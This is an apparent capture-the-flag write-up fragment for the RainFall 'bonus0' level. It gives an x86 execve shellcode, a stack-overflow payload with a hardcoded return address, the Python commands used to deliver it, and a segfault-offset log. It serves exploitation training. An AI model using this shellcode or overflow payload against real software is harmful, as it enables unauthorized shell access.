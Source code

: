 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

```bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
```

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 21'; python -c 'print "B" * 17')  | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 21'; python -c 'print "B" * 16')  | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```
